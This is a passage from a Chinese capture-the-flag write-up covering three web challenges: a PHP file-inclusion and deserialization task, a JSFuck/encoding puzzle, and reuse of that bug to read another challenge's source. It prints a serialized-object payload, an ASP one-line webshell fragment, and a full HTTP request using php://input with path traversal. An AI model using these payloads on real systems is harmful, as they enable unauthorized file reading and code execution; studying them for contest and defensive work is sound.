 ```
}

?>

<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->

```
发现有过滤，那么就序列化读源码吧

```
O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";} 
```

get flag

## 233 ##


Jsfuck跑了一下弹出来的字符串，识别出来是Windows下记事本的另类加密2333.

在windows记事本，保存成unicode，然后按ANSI打开即可。
得到一句话密码?% execute request("e@syt0g3t")%> 

提示:flag形式：flag_Xd{hSh_ctf:一句话密码}

```
flag_Xd{hSh_ctf:e@syt0g3t}
```

## 无间道 ##

原谅我真的不会做这个题，我这里传什么都不行，路径看不到完全没办法测试，无意中发现前面的题目可以读所有web题目的源码，那么就读来看看

```
GET /php/?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:54:"../62dd8d15b361f0f441e7/06acad5e2754f7e96d64/index.php";}  HTTP/1.1
Host: huashan.xdsec.cn
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://ctf.xidian.edu.cn/challenges
Accept-Encoding: gzip, deflate, sdch
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.6,en;q=0.4
Cookie: PHPSESSID=0703mqf0lmvfj661vrt7nqif44
Connection: close
Content-Length: 17

the user is admin

```
